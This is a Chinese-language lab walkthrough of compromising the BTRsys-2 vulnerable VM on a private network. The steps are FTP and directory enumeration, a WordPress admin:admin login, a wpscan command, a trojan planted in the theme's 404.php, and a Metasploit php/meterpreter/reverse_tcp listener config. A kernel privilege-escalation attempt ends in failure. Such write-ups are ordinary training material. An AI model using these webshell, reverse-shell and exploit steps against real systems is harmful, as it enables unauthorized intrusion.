# BTRsys-2靶机

## 信息收集

这次用的NAT模式

KALI：192.168.52.130

靶机：192.168.52.138





开放了21端口、22端口和80端口

ftp服务、ssh服务和http服务

## ftp连接

还是先看看21端口的ftp服务，版本为vsftpd 3.0.3 可能是匿名连接



登录成功

查看共享文件，还是啥也没有，看来这里不是利用点

## 目录扫描

扫描80端口的目录





很明显，该靶场是运行在wordpress上的

直接使用弱口令登录admin:admin

当然也可以用    wpscan --url http://192.168.52.138/wordpress --enumerate at --enumerate ap --enumerate u查看wordpress存在的漏洞


## wordpress

我们已经见过好多次wordpress，无非就是在404.php上传木马后台进行监听获取shell，然后再提权

### msfvenom生成木马



### MSF开启监听

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.52.130
run
```

### 执行木马

/wordpress/wp-content/themes/twentyfourteen/404.php



### 拿到shell




## 提权

内核溢出漏洞提权



目标靶机的系统为 ubuntu 4.4.0



利用一个漏洞，编译并运行其c语言文件来提权



在服务器上上传编译后的文件文件



赋予最高权限 chmod 777 shell



然后运行



提示因为没有GLIBC_2.34版本支持，无法成功提权


